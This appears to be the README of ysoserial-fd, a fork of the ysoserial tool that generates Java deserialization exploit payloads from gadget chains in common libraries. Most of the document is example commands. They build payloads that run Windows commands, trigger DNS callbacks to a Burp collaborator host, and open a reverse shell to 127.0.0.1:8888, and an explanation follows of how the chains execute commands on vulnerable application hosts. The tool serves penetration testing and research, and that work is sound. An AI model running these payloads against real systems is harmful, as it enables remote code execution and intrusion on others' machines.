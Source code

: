 \# To generate a CommonsCollections1 payload that executes commands on Windows and encode it in base64+URL:

    java -jar ysoserial-fd-0.0.6.jar CommonsCollections1 "echo AAA > a.txt" exec_win base64,url_encoding

\# To generate a Jdk7u21 payload that executes a sleep of 10 seconds and output it in XML using XStream:

    java -jar ysoserial-fd-0.0.6.jar Jdk7u21 10000 sleep xstream

\# To generate a DNS resolution payload with a collaborator URL, encoding it with gzip+ASCII-HEX:

    java -jar ysoserial-fd-0.0.6.jar Spring1 "yourcollaboratorpayload.burpcollaborator.net" dns gzip,ascii_hex

\# To generate a pure Java reverse shell, output in plain binary:

    java -jar ysoserial-fd-0.0.6.jar CommonsCollections2 "127.0.0.1:8888" reverse_shell

\# To generate a payload using ysoserial default (the two commands are the same, exec_global is the default):

    java -jar ysoserial-fd-0.0.6.jar ROME "calc.exe"
    java -jar ysoserial-fd-0.0.6.jar ROME "calc.exe" exec_global


## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        http://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.
